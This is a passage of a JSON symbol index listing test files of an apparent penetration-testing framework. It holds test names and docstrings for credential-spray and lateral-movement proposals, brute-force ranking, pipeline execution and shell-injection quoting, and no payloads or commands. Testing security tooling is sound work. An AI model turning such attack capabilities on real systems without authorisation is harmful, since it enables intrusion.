"TestConsumePolicyFacts", "signature": "class TestConsumePolicyFacts"}, {"kind": "class", "line": 332, "name": "TestWorldModelPersistence", "signature": "class TestWorldModelPersistence"}, {"kind": "class", "line": 376, "name": "TestGraphTopologySignal", "signature": "class TestGraphTopologySignal"}, {"kind": "class", "line": 490, "name": "TestCredentialAwareRetry", "signature": "class TestCredentialAwareRetry"}, {"kind": "class", "line": 562, "name": "TestFullDataFlow", "signature": "class TestFullDataFlow"}, {"kind": "method", "line": 57, "name": "test_finding_has_metadata_default_empty", "signature": "def test_finding_has_metadata_default_empty(self)"}, {"kind": "method", "line": 61, "name": "test_finding_accepts_metadata", "signature": "def test_finding_accepts_metadata(self)"}, {"kind": "method", "line": 73, "name": "test_port_and_protocol_in_metadata", "signature": "def test_port_and_protocol_in_metadata(self)"}, {"kind": "method", "line": 81, "name": "test_multiple_services_extracted", "signature": "def test_multiple_services_extracted(self)"}, {"kind": "method", "line": 91, "name": "test_udp_service_captured", "signature": "def test_udp_service_captured(self)"}, {"kind": "method", "line": 104, "name": "test_extracts_single_email", "signature": "def test_extracts_single_email(self)"}, {"kind": "method", "line": 111, "name": "test_extracts_multiple_emails", "signature": "def test_extracts_multiple_emails(self)"}, {"kind": "method", "line": 119, "name": "test_deduplicates_emails", "signature": "def test_deduplicates_emails(self)"}, {"kind": "method", "line": 124, "name": "test_ignores_non_email", "signature": "def test_ignores_non_email(self)"}, {"kind": "method", "line": 131, "name": "test_parser_extracts_emails_from_output", "signature": "def test_parser_extracts_emails_from_output(self, parser)"}, {"kind": "method", "line": 141, "name": "test_parser_still_extracts_service_versions_with_metadata", "signature": "def test_parser_still_extracts_service_versions_with_metadata(self, parser)"}, {"kind": "method", "line": 159, "name": "test_email_entry_defaults", "signature": "def test_email_entry_defaults(self)"}, {"kind": "method", "line": 165, "name": "test_domain_entry_defaults", "signature": "def test_domain_entry_defaults(self)"}, {"kind": "method", "line": 175, "name": "test_add_email_stores_and_deduplicates", "signature": "def test_add_email_stores_and_deduplicates(self, world_model)"}, {"kind": "method", "line": 181, "name": "test_add_domain_stores_and_adds_note", "signature": "def test_add_domain_stores_and_adds_note(self, world_model)"}, {"kind": "method", "line": 189, "name": "test_add_domain_without_host", "signature": "def test_add_domain_without_host(self, world_model)"}, {"kind": "method", "line": 199, "name": "test_service_version_calls_add_service", "signature": "def test_service_version_calls_add_service(self, world_model)"}, {"kind": "method", "line": 213, "name": "test_service_version_no_longer_adds_note", "signature": "def test_service_version_no_longer_adds_note(self, world_model)"}, {"kind": "method", "line": 227, "name": "test_domain_finding_calls_add_domain", "signature": "def test_domain_finding_calls_add_domain(self, world_model)"}, {"kind": "method", "line": 235, "name": "test_email_finding_calls_add_email", "signature": "def test_email_finding_calls_add_email(self, world_model)"}, {"kind": "method", "line": 243, "name": "test_error_finding_adds_note", "signature": "def test_error_finding_adds_note(self, world_model)"}, {"kind": "method", "line": 252, "name": "test_error_finding_no_host_uses_sentinel", "signature": "def test_error_finding_no_host_uses_sentinel(self, world_model)"}, {"kind": "method", "line": 266, "name": "test_consume_empty_file_returns_zero", "signature": "def test_consume_empty_file_returns_zero(self, world_model, tmp_path)"}, {"kind": "method", "line": 272, "name": "test_consume_ingests_hosts_and_services", "signature": "def test_consume_ingests_hosts_and_services(self, world_model, tmp_path)"}, {"kind": "method", "line": 318, "name": "test_consume_nonexistent_file_returns_zero", "signature": "def test_consume_nonexistent_file_returns_zero(self, world_model)"}, {"kind": "method", "line": 322, "name": "test_consume_malformed_json_returns_zero", "signature": "def test_consume_malformed_json_returns_zero(self, world_model, tmp_path)"}, {"kind": "method", "line": 333, "name": "test_emails_and_domains_survive_roundtrip", "signature": "def test_emails_and_domains_survive_roundtrip(self, world_model)"}, {"kind": "method", "line": 349, "name": "test_reset_clears_emails_and_domains", "signature": "def test_reset_clears_emails_and_domains(self, world_model)"}, {"kind": "method", "line": 356, "name": "test_snapshot_includes_emails_and_domains", "signature": "def test_snapshot_includes_emails_and_domains(self, world_model)"}, {"kind": "method", "line": 365, "name": "test_to_context_string_has_email_domain_counts", "signature": "def test_to_context_string_has_email_domain_counts(self, world_model)"}, {"kind": "method", "line": 377, "name": "test_returns_empty_on_nonexistent_world_model", "signature": "def test_returns_empty_on_nonexistent_world_model(self)"}, {"kind": "method", "line": 388, "name": "test_produces_lateral_proposals_from_host_nodes", "signature": "def test_produces_lateral_proposals_from_host_nodes(self, tmp_path)"}, {"kind": "method", "line": 425, "name": "test_produces_credential_spray_proposals", "signature": "def test_produces_credential_spray_proposals(self, tmp_path)"}, {"kind": "method", "line": 452, "name": "test_computes_centrality_from_graph_when_no_candidates", "signature": "def test_computes_centrality_from_graph_when_no_candidates(self, tmp_path)"}, {"kind": "method", "line": 477, "name": "test_signals_are_wired_in_build_default_engine", "signature": "def test_signals_are_wired_in_build_default_engine(self, tmp_path)"}, {"kind": "method", "line": 491, "name": "test_retry_with_no_open_ports_returns_empty", "signature": "def test_retry_with_no_open_ports_returns_empty(self)"}, {"kind": "method", "line": 501, "name": "test_credential_aware_rank_boosts_brute_force", "signature": "def test_credential_aware_rank_boosts_brute_force(self)"}, {"kind": "method", "line": 526, "name": "test_credential_aware_rank_boosts_credential_reuse", "signature": "def test_credential_aware_rank_boosts_credential_reuse(self)"}, {"kind": "method", "line": 543, "name": "test_credential_aware_rank_handles_empty_creds", "signature": "def test_credential_aware_rank_handles_empty_creds(self)"}, {"kind": "method", "line": 563, "name": "test_recon_to_world_model_to_recommendation", "signature": "def test_recon_to_world_model_to_recommendation(self, world_model, parser)"}]}, {"doc": "Tests for cli.phase_labels — canonical phase display labels contract.", "id": "tests/test_phase_labels.py", "kind": "module", "label": "test_phase_labels.py", "language": "py", "sha256": "50a137d3b8a50ab0", "symbol_count": 5, "symbols": [{"kind": "function", "line": 13, "name": "test_known_phase_labels", "signature": "def test_known_phase_labels()"}, {"kind": "function", "line": 19, "name": "test_phase_label_falls_back_to_title_case", "signature": "def test_phase_label_falls_back_to_title_case()"}, {"kind": "function", "line": 26, "name": "test_phase_label_keys_cover_command_index_phases", "signature": "def test_phase_label_keys_cover_command_index_phases()"}, {"kind": "function", "line": 32, "name": "test_contextual_help_reuses_canonical_labels", "signature": "def test_contextual_help_reuses_canonical_labels()"}, {"kind": "function", "line": 38, "name": "test_tips_engine_reuses_canonical_labels", "signature": "def test_tips_engine_reuses_canonical_labels()"}]}, {"doc": "tests/test_pipeline_engine.py  Coverage for Pillar 3 (declarative pipelines):  - TemplateResolver: dotted-path lookup, type-aware stringification, safe failure for missing paths, no code execution - ConditionEvaluator: truthy/falsy semantics for rendered templates - StepValidator: substring, re: prefix, empty/non_empty predicates - StepDerivers: per-command output parsing (ping, lazynmap, searchsploit) - PipelineLoader: schema validation, name traversal protection, file-not-found - PipelineEngine: sequential execution, on_success hook, condition skip, on_failure stop/continue, validate failure, nested pipeline call, cycle detection, depth limit, artifact persistence - mcp_pipeline_* entry points return well-formed JSON - Wiring: do_pipeline exists in lazyown.py, MCP exposes 4 tools, daemon subcommand registered", "id": "tests/test_pipeline_engine.py", "kind": "module", "label": "test_pipeline_engine.py", "language": "py", "sha256": "e6d000728fda63aa", "symbol_count": 65, "symbols": [{"doc": "Create a self-contained LazyOwn root with pipelines/ and sessions/.", "kind": "function", "line": 36, "name": "temp_lazyown", "signature": "def temp_lazyown(tmp_path, monkeypatch)"}, {"doc": "IStepRunner double driven by an in-memory map of cmd -> output.", "kind": "class", "line": 67, "name": "_ScriptedRunner", "signature": "class _ScriptedRunner"}, {"kind": "class", "line": 98, "name": "TestTemplateResolver", "signature": "class TestTemplateResolver"}, {"kind": "class", "line": 150, "name": "TestConditionEvaluator", "signature": "class TestConditionEvaluator"}, {"kind": "class", "line": 175, "name": "TestStepValidator", "signature": "class TestStepValidator"}, {"kind": "class", "line": 206, "name": "TestStepDerivers", "signature": "class TestStepDerivers"}, {"kind": "function", "line": 248, "name": "_write_pipeline", "signature": "def _write_pipeline(pipelines_dir, name, data)"}, {"kind": "class", "line": 254, "name": "TestPipelineLoader", "signature": "class TestPipelineLoader"}, {"doc": "Return engine constructor kwargs with a silent narrator + temp dirs.", "kind": "function", "line": 361, "name": "silent_engine_kwargs", "signature": "def silent_engine_kwargs(temp_lazyown)"}, {"kind": "class", "line": 383, "name": "TestPipelineEngineExecution", "signature": "class TestPipelineEngineExecution"}, {"kind": "class", "line": 577, "name": "TestNestedPipelines", "signature": "class TestNestedPipelines"}, {"kind": "class", "line": 684, "name": "TestMcpEntryPoints", "signature": "class TestMcpEntryPoints"}, {"kind": "class", "line": 738, "name": "TestWiring", "signature": "class TestWiring"}, {"kind": "method", "line": 70, "name": "__init__", "signature": "def __init__(self, outputs, successes)"}, {"kind": "method", "line": 79, "name": "run", "signature": "def run(self, command, args, target, timeout_s)"}, {"kind": "method", "line": 87, "name": "_heuristic_success", "signature": "def _heuristic_success(output)"}, {"kind": "method", "line": 99, "name": "test_dotted_path_lookup", "signature": "def test_dotted_path_lookup(self, temp_lazyown)"}, {"kind": "method", "line": 106, "name": "test_missing_path_renders_empty", "signature": "def test_missing_path_renders_empty(self, temp_lazyown)"}, {"kind": "method", "line": 112, "name": "test_bool_serialisation", "signature": "def test_bool_serialisation(self, temp_lazyown)"}, {"kind": "method", "line": 118, "name": "test_payload_lookup", "signature": "def test_payload_lookup(self, temp_lazyown)"}, {"kind": "method", "line": 124, "name": "test_no_template_passes_through", "signature": "def test_no_template_passes_through(self, temp_lazyown)"}, {"kind": "method", "line": 130, "name": "test_no_code_execution", "signature": "def test_no_code_execution(self, temp_lazyown)"}, {"kind": "method", "line": 138, "name": "test_list_index_lookup", "signature": "def test_list_index_lookup(self, temp_lazyown)"}, {"kind": "method", "line": 164, "name": "test_truthy_table", "signature": "def test_truthy_table(self, temp_lazyown, value, expected)"}, {"kind": "method", "line": 176, "name": "test_substring_match", "signature": "def test_substring_match(self, temp_lazyown)"}, {"kind": "method", "line": 182, "name": "test_regex_match", "signature": "def test_regex_match(self, temp_lazyown)"}, {"kind": "method", "line": 188, "name": "test_empty_and_non_empty", "signature": "def test_empty_and_non_empty(self, temp_lazyown)"}, {"kind": "method", "line": 195, "name": "test_no_predicate_is_pass_through", "signature": "def test_no_predicate_is_pass_through(self, temp_lazyown)"}, {"kind": "method", "line": 207, "name": "test_ping_derives_ttl_and_alive", "signature": "def test_ping_derives_ttl_and_alive(self, temp_lazyown)"}, {"kind": "method", "line": 214, "name": "test_lazynmap_derives_services", "signature": "def test_lazynmap_derives_services(self, temp_lazyown)"}, {"kind": "method", "line": 223, "name": "test_searchsploit_has_exploit", "signature": "def test_searchsploit_has_exploit(self, temp_lazyown)"}, {"kind": "method", "line": 231, "name": "test_unknown_command_returns_empty", "signature": "def test_unknown_command_returns_empty(self, temp_lazyown)"}, {"kind": "method", "line": 236, "name": "test_register_custom_deriver", "signature": "def test_register_custom_deriver(self, temp_lazyown)"}, {"kind": "method", "line": 255, "name": "test_load_basic_pipeline", "signature": "def test_load_basic_pipeline(self, temp_lazyown)"}, {"kind": "method", "line": 272, "name": "test_missing_pipeline_raises", "signature": "def test_missing_pipeline_raises(self, temp_lazyown)"}, {"kind": "method", "line": 278, "name": "test_invalid_name_rejected", "signature": "def test_invalid_name_rejected(self, temp_lazyown)"}, {"kind": "method", "line": 284, "name": "test_both_command_and_pipeline_rejected", "signature": "def test_both_command_and_pipeline_rejected(self, temp_lazyown)"}, {"kind": "method", "line": 297, "name": "test_neither_command_nor_pipeline_rejected", "signature": "def test_neither_command_nor_pipeline_rejected(self, temp_lazyown)"}, {"kind": "method", "line": 310, "name": "test_empty_steps_rejected", "signature": "def test_empty_steps_rejected(self, temp_lazyown)"}, {"kind": "method", "line": 324, "name": "test_invalid_on_failure_rejected", "signature": "def test_invalid_on_failure_rejected(self, temp_lazyown)"}, {"kind": "method", "line": 337, "name": "test_list_returns_sorted_names", "signature": "def test_list_returns_sorted_names(self, temp_lazyown)"}, {"kind": "method", "line": 346, "name": "test_invalid_yaml_raises_schema_error", "signature": "def test_invalid_yaml_raises_schema_error(self, temp_lazyown)"}, {"kind": "class", "line": 369, "name": "_SilentNarrator", "signature": "class _SilentNarrator(INarratorAdapter)"}, {"kind": "method", "line": 384, "name": "test_runs_steps_in_order_and_persists_artifacts", "signature": "def test_runs_steps_in_order_and_persists_artifacts(self, temp_lazyown, silent_engine_kwargs)"}, {"kind": "method", "line": 417, "name": "test_validate_failure_marks_step_failed", "signature": "def test_validate_failure_marks_step_failed(self, temp_lazyown, silent_engine_kwargs)"}, {"kind": "method", "line": 444, "name": "test_condition_false_skips_step", "signature": "def test_condition_false_skips_step(self, temp_lazyown, silent_engine_kwargs)"}, {"kind": "method", "line": 473, "name": "test_condition_true_runs_step", "signature": "def test_condition_true_runs_step(self, temp_lazyown, silent_engine_kwargs)"}, {"kind": "method", "line": 498, "name": "test_on_success_hook_runs", "signature": "def test_on_success_hook_runs(self, temp_lazyown, silent_engine_kwargs)"}, {"kind": "method", "line": 520, "name": "test_on_failure_continue_keeps_going", "signature": "def test_on_failure_continue_keeps_going(self, temp_lazyown, silent_engine_kwargs)"}, {"kind": "method", "line": 545, "name": "test_input_from_replaces_args", "signature": "def test_input_from_replaces_args(self, temp_lazyown, silent_engine_kwargs)"}, {"kind": "method", "line": 578, "name": "test_nested_pipeline_runs_and_records_run_id", "signature": "def test_nested_pipeline_runs_and_records_run_id(self, temp_lazyown, silent_engine_kwargs)"}, {"kind": "method", "line": 613, "name": "test_cycle_is_detected", "signature": "def test_cycle_is_detected(self, temp_lazyown, silent_engine_kwargs)"}, {"kind": "method", "line": 639, "name": "test_depth_limit_enforced", "signature": "def test_depth_limit_enforced(self, temp_lazyown, silent_engine_kwargs)"}, {"kind": "method", "line": 685, "name": "test_list_returns_json", "signature": "def test_list_returns_json(self, temp_lazyown)"}, {"kind": "method", "line": 699, "name": "test_run_rejects_invalid_name", "signature": "def test_run_rejects_invalid_name(self, temp_lazyown)"}, {"kind": "method", "line": 705, "name": "test_validate_returns_step_list", "signature": "def test_validate_returns_step_list(self, temp_lazyown)"}, {"kind": "method", "line": 719, "name": "test_validate_missing_pipeline_errors", "signature": "def test_validate_missing_pipeline_errors(self, temp_lazyown)"}, {"kind": "method", "line": 725, "name": "test_status_returns_ok_with_no_runs", "signature": "def test_status_returns_ok_with_no_runs(self, temp_lazyown)"}, {"kind": "method", "line": 739, "name": "test_do_pipeline_exists_in_lazyown", "signature": "def test_do_pipeline_exists_in_lazyown(self)"}, {"kind": "method", "line": 748, "name": "test_mcp_exposes_four_pipeline_tools", "signature": "def test_mcp_exposes_four_pipeline_tools(self)"}, {"kind": "method", "line": 758, "name": "test_daemon_has_pipeline_subcommand", "signature": "def test_daemon_has_pipeline_subcommand(self)"}, {"kind": "method", "line": 763, "name": "test_pipelines_dir_exists_and_has_readme", "signature": "def test_pipelines_dir_exists_and_has_readme(self)"}, {"kind": "method", "line": 769, "name": "test_example_pipelines_validate", "signature": "def test_example_pipelines_validate(self)"}, {"kind": "method", "line": 370, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 373, "name": "narrate", "signature": "def narrate(self, kind, target, message, payload, severity)"}]}, {"doc": "Placeholder coverage across every registry that resolves ``{tokens}``.  Locks the contract that broke silently in production: a placeholder used by a shipped lazyaddon must resolve at shell runtime, pass the lazyc2 creator validator, be coercible by the payload schema, and be documented in the lazyaddon-creator skill. BDD scenarios: - Given the live payload plus params/*.yaml, when compared with the validator allowlist, no live key is rejected - Given every shipped lazyaddon, when its tool templates are scanned, every token is either declared or globally known - Given every required param without default, when resolved, its key exists in the live params so the command cannot abort - Given the skill documentation, when compared with the validator, no known key is undocumented", "id": "tests/test_placeholder_coverage.py", "kind": "module", "label": "test_placeholder_coverage.py", "language": "py", "sha256": "db86222c5395111f", "symbol_count": 8, "symbols": [{"doc": "Union of payload.json and params/*.yaml (the shell self.params).", "kind": "function", "line": 40, "name": "_live_keys", "signature": "def _live_keys()"}, {"doc": "Known-keys list from the lazyaddon-creator skill Step 4.", "kind": "function", "line": 49, "name": "_skill_keys", "signature": "def _skill_keys()"}, {"doc": "Validator allowlist must accept every key the shell can substitute.", "kind": "function", "line": 57, "name": "test_validator_covers_live_keys", "signature": "def test_validator_covers_live_keys()"}, {"doc": "Payload schema must coerce every key the shell can substitute.", "kind": "function", "line": 63, "name": "test_schema_covers_live_keys", "signature": "def test_schema_covers_live_keys()"}, {"doc": "Skill doc must document every key the validator accepts.", "kind": "function", "line": 68, "name": "test_skill_documents_validator_keys", "signature": "def test_skill_documents_validator_keys()"}, {"doc": "Every tool token is declared in params or globally known.", "kind": "function", "line": 74, "name": "test_addon_tokens_resolve", "signature": "def test_addon_tokens_resolve()"}, {"doc": "Every token in an enabled addon exists in live shell params.\n\nYAML ``default:`` values never reach the shell: the wrapper substitutes\nexclusively from ``self.params`` (payload.json plus params/*.yaml), so a\ntoken missing there renders literally into the executed command.", "kind": "function", "line": 94, "name": "test_addon_tokens_resolve_at_runtime", "signature": "def test_addon_tokens_resolve_at_runtime()"}, {"doc": "Required params without default must exist in live shell params.", "kind": "function", "line": 118, "name": "test_required_params_exist_live", "signature": "def test_required_params_exist_live()"}]}, {"doc": "Marketplace placeholder substitution must be shell-safe.  SDD contract: ``poc_tui.plugin_loader._replace_placeholders`` injects payload values into commands executed with ``shell=True``. Values arrive from scan data and operator config, so every substituted value is wrapped in ``shlex.quote`` (the same remediation already applied in ``modules/conditional_hooks.py``). Multi-word values become a single quoted shell word; per-run flags travel as free args, which are appended verbatim and never substituted.", "id": "tests/test_plugin_loader_safety.py", "kind": "module", "label": "test_plugin_loader_safety.py", "language": "py", "sha256": "db078c58c5686fda", "symbol_count": 7, "symbols": [{"kind": "function", "line": 23, "name": "_load_fn", "signature": "def _load_fn()"}, {"kind": "class", "line": 38, "name": "TestPlaceholderQuoting", "signature": "class TestPlaceholderQuoting"}, {"kind": "method", "line": 39, "name": "test_plain_values_pass_through", "signature": "def test_plain_values_pass_through(self)"}, {"kind": "method", "line": 43, "name": "test_injection_neutralized", "signature": "def test_injection_neutralized(self)"}, {"kind": "method", "line": 48, "name": "test_command_substitution_neutralized", "signature": "def test_command_substitution_neutralized(self)"}, {"kind": "method", "line": 53, "name": "test_missing_key_left_verbatim", "signature": "def test_missing_key_left_verbatim(self)"}, {"kind": "method", "line": 57, "name": "test_uses_shlex_quote", "signature": "def test_uses_shlex_quote(self)"}]}, {"doc": "Tests for marketplace plugin tiers and operator ratings.", "id": "tests/test_plugin_tiers.py", "kind": "module", "label": "test_plugin_tiers.py", "language": "py", "sha256": "97856b26c7797d69", "symbol_count": 12, "symbols": [{"kind": "function", "line": 25, "name": "test_tier_constants", "signature": "def test_tier_constants()"}, {"kind": "function", "line": 29, "name": "test_manifest_overrides_metadata", "signature": "def test_manifest_overrides_metadata()"}, {"kind": "function", "line": 33, "name": "test_metadata_tier_used_without_manifest", "signature": "def test_metadata_tier_used_without_manifest()"}, {"kind": "function", "line": 37, "name": "test_default_tier_is_community", "signature": "def test_default_tier_is_community()"}, {"kind": "function", "line": 42, "name": "test_repo_manifest_loads_with_valid_tiers", "signature": "def test_repo_manifest_loads_with_valid_tiers()"}, {"kind": "function", "line": 52, "name": "test_missing_manifest_returns_empty", "signature": "def test_missing_manifest_returns_empty(tmp_path)"}, {"kind": "function", "line": 56, "name": "test_malformed_manifest_is_ignored", "signature": "def test_malformed_manifest_is_ignored(tmp_path)"}, {"kind": "function", "line": 62, "name": "test_rate_and_average", "signature": "def test_rate_and_average(tmp_path)"}, {"kind": "function", "line": 70, "name": "test_rate_rejects_bad_input", "signature": "def test_rate_rejects_bad_input(tmp_path)"}, {"kind": "function", "line": 79, "name": "test_corrupt_store_reads_empty", "signature": "def test_corrupt_store_reads_empty(tmp_path)"}, {"kind": "function", "line": 85, "name": "test_format_rating", "signature": "def test_format_rating()"}, {"kind": "function", "line": 91, "name": "test_read_metadata_tier", "signature": "def test_read_metadata_tier(tmp_path)"}]}, {"doc": "Tests for runtime install profiles (``core.profiles``).  Covers profile resolution from ``LAZYOWN_PROFILE``, dependency-spec filtering per profile, the invalid-value contract, and lock-file consistency between ``requirements-light.txt`` and ``requirements.txt``.", "id": "tests/test_profiles.py", "kind": "module", "label": "test_profiles.py", "language": "py", "sha256": "0775dfd10ff65d15", "symbol_count": 11, "symbols": [{"kind": "class", "line": 26, "name": "_Spec", "signature": "class _Spec"}, {"kind": "function", "line": 31, "name": "test_default_profile_is_full", "signature": "def test_default_profile_is_full(monkeypatch)"}, {"kind": "function", "line": 37, "name": "test_light_profile_selected", "signature": "def test_light_profile_selected(monkeypatch)"}, {"kind": "function", "line": 43, "name": "test_profile_value_is_case_insensitive", "signature": "def test_profile_value_is_case_insensitive(monkeypatch)"}, {"kind": "function", "line": 48, "name": "test_unknown_profile_raises", "signature": "def test_unknown_profile_raises(monkeypatch)"}, {"kind": "function", "line": 54, "name": "test_full_profile_keeps_every_spec", "signature": "def test_full_profile_keeps_every_spec(monkeypatch)"}, {"kind": "function", "line": 60, "name": "test_light_profile_skips_analytics_and_ai", "signature": "def test_light_profile_skips_analytics_and_ai(monkeypatch)"}, {"kind": "function", "line": 68, "name": "_pinned_names", "signature": "def _pinned_names(path)"}, {"kind": "function", "line": 79, "name": "test_light_lock_is_a_subset_of_full_lock", "signature": "def test_light_lock_is_a_subset_of_full_lock()"}, {"kind": "function", "line": 88, "name": "test_light_lock_drops_analytics_and_ai", "signature": "def test_light_lock_drops_analytics_and_ai()"}, {"kind": "method", "line": 27, "name": "__init__", "signature": "def __init__(self, import_name)"}]}, {"doc": "Regression tests for readline marker handling in the Neon Box prompt.  Covers the ``^A``/``^B`` leak reported when the cmd2 prompt wrapped newlines in readline zero-width markers. Markers must fence ANSI escapes only, never newlines or printable text.", "id": "tests/test_prompt_readline_markers.py", "kind": "module", "label": "test_prompt_readline_markers.py", "language": "py", "sha256": "c59595dada08b7ff", "symbol_count": 8, "symbols": [{"doc": "ANSI escapes are wrapped while printable text stays bare.", "kind": "function", "line": 25, "name": "test_ansi_escape_gets_fenced", "signature": "def test_ansi_escape_gets_fenced()"}, {"doc": "Newlines are never wrapped in zero-width markers.", "kind": "function", "line": 35, "name": "test_newline_stays_bare", "signature": "def test_newline_stays_bare()"}, {"doc": "Mixed content fences escapes and preserves line breaks verbatim.", "kind": "function", "line": 43, "name": "test_mixed_prompt_fences_only_ansi", "signature": "def test_mixed_prompt_fences_only_ansi()"}, {"doc": "Default prompt is raw ANSI for prompt_toolkit, free of markers.", "kind": "function", "line": 53, "name": "test_render_prompt_default_has_no_markers", "signature": "def test_render_prompt_default_has_no_markers()"}, {"doc": "Opt-in readline mode fences escapes and never wraps newlines.", "kind": "function", "line": 62, "name": "test_render_prompt_readline_mode_fences_ansi_only", "signature": "def test_render_prompt_readline_mode_fences_ansi_only()"}, {"doc": "Display mode returns raw ANSI without any readline markers.", "kind": "function", "line": 70, "name": "test_render_prompt_raw_has_no_markers", "signature": "def test_render_prompt_raw_has_no_markers()"}, {"doc": "Stripping markers from the readline prompt restores display text.", "kind": "function", "line": 79, "name": "test_strip_readline_markers_restores_raw", "signature": "def test_strip_readline_markers_restores_raw()"}, {"doc": "Fully stripped prompt keeps the three-line Neon Box structure.", "kind": "function", "line": 87, "name": "test_stripped_prompt_matches_box_shape", "signature": "def test_stripped_prompt_matches_box_shape()"}]}, {"doc": "Contract tests for live prompt refresh after a payload change.  The migrated CommandSets write ``self.custom_prompt`` and ``self.prompt`` expecting the shell to own them. The base class forwards unknown reads to the shell, but it did not forward writes, so ``assign rhost`` changed ``payload.json`` and left the Neon Box prompt stale. These tests pin the write forwarding and the ``refresh_prompt`` wiring.", "id": "tests/test_prompt_refresh.py", "kind": "module", "label": "test_prompt_refresh.py", "language": "py", "sha256": "69bdeab296760c1a", "symbol_count": 9, "symbols": [{"kind": "function", "line": 22, "name": "_command_set_with_fake_shell", "signature": "def _command_set_with_fake_shell()"}, {"doc": "Assigning custom_prompt on a CommandSet updates the bound shell.", "kind": "function", "line": 29, "name": "test_prompt_write_forwards_to_shell", "signature": "def test_prompt_write_forwards_to_shell()"}, {"doc": "Reading custom_prompt after forwarding returns the shell value.", "kind": "function", "line": 37, "name": "test_prompt_read_after_forward", "signature": "def test_prompt_read_after_forward()"}, {"doc": "A non-prompt attribute is never forwarded to the shell.", "kind": "function", "line": 44, "name": "test_unrelated_write_stays_local", "signature": "def test_unrelated_write_stays_local()"}, {"doc": "do_assign must refresh the prompt after a successful payload write.", "kind": "function", "line": 52, "name": "test_do_assign_calls_refresh_prompt", "signature": "def test_do_assign_calls_refresh_prompt()"}, {"doc": "LazyOwnShell must own the refresh_prompt helper.", "kind": "function", "line": 59, "name": "test_shell_defines_refresh_prompt", "signature": "def test_shell_defines_refresh_prompt()"}, {"doc": "The rendered prompt reflects the rhost passed in the payload.", "kind": "function", "line": 65, "name": "test_render_prompt_includes_rhost", "signature": "def test_render_prompt_includes_rhost()"}, {"doc": "Prompt builders must not inject text after every closing bracket.", "kind": "function", "line": 71, "name": "test_no_bracket_replace_hack", "signature": "def test_no_bracket_replace_hack()"}, {"doc": "do_rhost and do_rrhost must refresh through the shell helper.", "kind": "function", "line": 78, "name": "test_rhost_commands_use_refresh_prompt", "signature": "def test_rhost_commands_use_refresh_prompt()"}]}, {"doc": "Regression guard for pwntomate tool templates (tools/*.tool).  Locks in the contract that broke in production: every ``{placeholder}`` used by a template must be substituted by ``pwntomate._build_substitutions``, gobuster templates must use valid subcommand syntax, and no rendered command may contain an empty URL host or a leftover placeholder. Mirrors pwntomate's own skip rules (empty domain, unresolved placeholder) so the test asserts exactly the set that would execute.", "id": "tests/test_pwntomate_tools.py", "kind": "module", "label": "test_pwntomate_tools.py", "language": "py", "sha256": "72dc5e954bded1fc", "symbol_count": 8, "symbols": [{"doc": "Load every tool template keyed by file stem.", "kind": "function", "line": 47, "name": "_load_tools", "signature": "def _load_tools()"}, {"doc": "Render a template the way pwntomate does (minus credentials).", "kind": "function", "line": 57, "name": "_render", "signature": "def _render(template, domain, tunnel)"}, {"doc": "Mirror pwntomate's skip rules: empty domain / leftover placeholder.", "kind": "function", "line": 83, "name": "_would_run", "signature": "def _would_run(template, domain)"}, {"doc": "Every template carries toolname/command/trigger/active with sane types.", "kind": "function", "line": 92, "name": "test_templates_are_valid_json_with_required_keys", "signature": "def test_templates_are_valid_json_with_required_keys()"}, {"doc": "No template may use a placeholder pwntomate cannot substitute.", "kind": "function", "line": 103, "name": "test_placeholders_match_pwntomate_substitutions", "signature": "def test_placeholders_match_pwntomate_substitutions()"}, {"doc": "No executable command may contain an empty URL host (https:/// bug).", "kind": "function", "line": 115, "name": "test_rendered_commands_have_no_empty_host", "signature": "def test_rendered_commands_have_no_empty_host()"}, {"doc": "gobuster dns takes --domain (never -r URL); dir takes -u with a host.", "kind": "function", "line": 129, "name": "test_gobuster_templates_use_valid_syntax", "signature": "def test_gobuster_templates_use_valid_syntax()"}, {"doc": "The -ssl flag must be conditional ({ssl_flag}), never hardcoded.", "kind": "function", "line": 141, "name": "test_no_hardcoded_always_ssl_flag", "signature": "def test_no_hardcoded_always_ssl_flag()"}]}, {"doc": "Tests for the lazyown_rea MCP tool (REA reverse-engineering skill).  Covers tool registration, argument validation and argv construction for skills.lazyown_mcp._h_rea without requiring Hopper, Ghidra or network.", "id": "tests/test_rea_mcp.py", "kind": "module", "label": "test_rea_mcp.py", "language": "py", "sha256": "df1eaf19e9ce1901", "symbol_count": 24, "symbols": [{"doc": "Provide minimal mcp SDK stubs when the pinned SDK cannot load the server.\n\nThe repository pins mcp==2.1.1 whose Server lacks the list_tools/call_tool\ndecorators used by skills.lazyown_mcp. The stubs expose just enough API\nfor the module to import so handler logic stays testable.", "kind": "function", "line": 21, "name": "_stub_mcp_sdk", "signature": "def _stub_mcp_sdk()"}, {"doc": "Invoke the rea handler and parse its JSON envelope.", "kind": "function", "line": 73, "name": "_call", "signature": "def _call(arguments, monkeypatch)"}, {"kind": "function", "line": 90, "name": "test_list_tools_has_rea", "signature": "def test_list_tools_has_rea()"}, {"kind": "function", "line": 99, "name": "test_unknown_action_rejected", "signature": "def test_unknown_action_rejected(monkeypatch)"}, {"kind": "function", "line": 105, "name": "test_missing_binary", "signature": "def test_missing_binary(monkeypatch)"}, {"kind": "function", "line": 113, "name": "test_doctor_argv", "signature": "def test_doctor_argv(monkeypatch)"}, {"kind": "function", "line": 119, "name": "test_inspect_artifact_argv", "signature": "def test_inspect_artifact_argv(tmp_path, monkeypatch)"}, {"kind": "function", "line": 132, "name": "test_large_output_survives_compaction", "signature": "def test_large_output_survives_compaction(tmp_path, monkeypatch)"}, {"kind": "function", "line": 148, "name": "test_analyze_uses_explicit_target", "signature": "def test_analyze_uses_explicit_target(tmp_path, monkeypatch)"}, {"kind": "function", "line": 155, "name": "test_analyze_missing_target", "signature": "def test_analyze_missing_target(monkeypatch)"}, {"kind": "function", "line": 168, "name": "test_target_flag_injection_rejected", "signature": "def test_target_flag_injection_rejected(monkeypatch)"}, {"kind": "function", "line": 174, "name": "test_decompile_needs_valid_address", "signature": "def test_decompile_needs_valid_address(tmp_path, monkeypatch)"}, {"kind": "function", "line": 189, "name": "test_search_needs_query", "signature": "def test_search_needs_query(tmp_path, monkeypatch)"}, {"kind": "function", "line": 201, "name": "test_provider_flag_appended", "signature": "def test_provider_flag_appended(tmp_path, monkeypatch)"}, {"kind": "class", "line": 35, "name": "Tool", "signature": "class Tool"}, {"kind": "class", "line": 39, "name": "TextContent", "signature": "class TextContent"}, {"kind": "class", "line": 46, "name": "Server", "signature": "class Server"}, {"kind": "function", "line": 78, "name": "_fake_run", "signature": "def _fake_run(argv)"}, {"kind": "function", 